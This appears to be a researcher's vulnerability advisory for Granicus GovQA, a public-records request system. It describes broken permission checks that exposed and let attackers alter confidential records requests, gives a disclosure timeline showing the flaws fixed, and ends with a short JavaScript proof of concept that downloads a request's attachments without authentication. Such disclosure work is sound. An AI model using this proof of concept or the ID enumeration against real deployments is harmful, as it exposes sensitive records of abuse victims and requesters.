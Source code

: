# Granicus GovQA

## Description

Insufficient permission check vulnerabilities in Granicus's GovQA allowed unauthorized access to view, edit, and change ownership of open records requests[^1], including restricted-access confidential records. By changing ownership of a request, an attacker could effectively deny a legitimate user's access to that request. The vulnerabilities affected various deployments, including numerous Departments of Children and Family Services or their equivalents, which handle highly sensitive records of domestic violence and sexual abuse allegations against children.

## Details

The vulnerabilities allowed attackers to perform several unauthorized actions, as detailed below.

- To view request details, an attacker could access `RequestOpen.aspx?rid=<requestId>` or `RequestOpenCI.aspx?rid=<requestId>`, allowing them to view the name and other private information about the requester, as well as full details of the request.
- To edit request details, an attacker could access `RequestOpenCI.aspx?rid=<requestId>` to modify any field originally set by the requester.
- To change ownership of requests, an attacker could access `RequestOpenCI.aspx?rid=<requestId>` to manipulate the email field to assign ownership to their own account, another user's account, or to an email address not associated with an existing user.
- To download files attached to a request, which include those uploaded by the requester and the responding organization, an attacker could send a `POST` request to `RequestEdit.aspx/DownloadAll` with the data `{ itemId: <requestId> }`. This action would return a URL similar to `/temp/<requestId>.zip`, which could then be used to download the files. A proof of concept exploit is included below.

The sequential numbering of Request IDs makes it trivial for attackers to discover other requests, posing future risk to the system.

In a clear effort to protect its brand value, Granicus has deemed this issue low severity[^2], showcasing an egregious disregard for industry-standards, such as the Common Vulnerability Scoring System (CVSS).

CVSS 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Timeline

- 2024-01-06 - Vulnerabilities discovered in GovQA.
- 2024-01-08 - Granicus notified that vulnerabilities exist in GovQA.
- 2024-02-27 - Vulnerability details reported to Granicus.
- 2024-03-04 - Granicus confirms receipt of report.
- 2024-03-04 - Vulnerabilities confirmed fixed.

## Proof of Concept

```JavaScript
/*
 * Download all files for the request currently being viewed.
 * No authentication is required.
 */
DownloadFiles((new URL(window.location)).searchParams.get('rid'));

async function DownloadFiles(itemId) {
  const result = await fetch("RequestEdit.aspx/DownloadAll", {
    method: "POST",
    body: JSON.stringify({
      itemId: itemId
    }),
    headers: {"Content-Type": "application/json; charset=utf-8"}
  })
  if (result.status !== 200) {
      console.log(`Unable to download archive for ${itemId}.`);
      return;
  }
  const json = await result.json();
  console.log(`Attempting to download ${json.d}`);
  window.location=`.${json.d}`;
}
```

## Acknowledgements

- [Jaku](https://twitter.com/Jaku), founder of [Crowd Control](https://crowdcontrol.live/), who frequently offers his cybersecurity wisdom and experience.
- [Johnny Xmas](https://linktr.ee/johnnyxmas), [Burbsec](https://burbsec.com/) President, who has long provided guidance and acted as the voice of reason.
- [David DiMolfetta](https://www.nextgov.com/voices/david-dimolfetta/25968/) from [Nextgov/FCW](https://www.nextgov.com/), who immediately understood the severity of these vulnerabilities, took them to his editors, and worked tirelessly on his article[^3].
- [Zack Whittaker](https://techcrunch.com/author/zack-whittaker/) from [TechCrunch](https://techcrunch.com), who graciously allows me to rant about cybersecurity.
- [Brendon Keefe](https://www.atlantanewsfirst.com/authors/brendan.keefe/) from [Atlanta News First](https://www.atlantanewsfirst.com/), who retroactively permitted me to use his open records request for testing.
- The [CISA CVD Team](https://www.cisa.gov/coordinated-vulnerability-disclosure-process) assisted with the coordination of these vulnerabilities.

## Contact

[Jason Parker](https://linktr.ee/northantara)

- Email: [north@ꩰ.com](mailto:north@ꩰ.com)
- Press: [press@jeltz.org](mailto:press@jeltz.org)
- Mastodon: [@north@ꩰ.com](https://ꩰ.com/@north)

## Support

- If you enjoy my work, consider becoming a sponsor on [Patreon](https://patreon.com/northantara) or [GitHub](https://github.com/sponsors/qwell/), and/or consider donating to the [Electronic Frontier Foundation](https://eff.org/donate) or [St. Jude](https://www.stjude.org/donate). Many hours of labor are put into researching and disclosing vulnerabilities.
- I am also available for both contractual and full-time employment opportunities.

[^1]: _The term "open" in "open records requests" can be misleading, as not all "open" requests are intended for public access. Many state and local governments have exceptions regarding the types of information that can be requested and the individuals permitted to access it. For instance, individuals directly affected by a record may have a legal right to request access regardless of public release exemptions. However, accessing such requests may pose security risks, as sensitive information could be downloaded by attackers. Furthermore, different states have varying requirements for requesting access, with some jurisdictions requiring proof of identity or residency. For example, Tennessee mandates requestors to upload a copy of their State ID to prove residency, potentially exposing personal information to unauthorized access._

<!-- -->

[^2]: _If Granicus considers the leakage of explicit records describing the sexual abuse of children to be of low severity, I shudder to think what they might consider to be of medium or high severity._

<!-- -->

[^3]: _[Flaws in public records management tool could let hackers nab sensitive data linked to requests](https://www.nextgov.com/cybersecurity/2024/03/flaws-public-records-management-tool-could-let-hackers-nab-sensitive-data-linked-requests/394755/)_
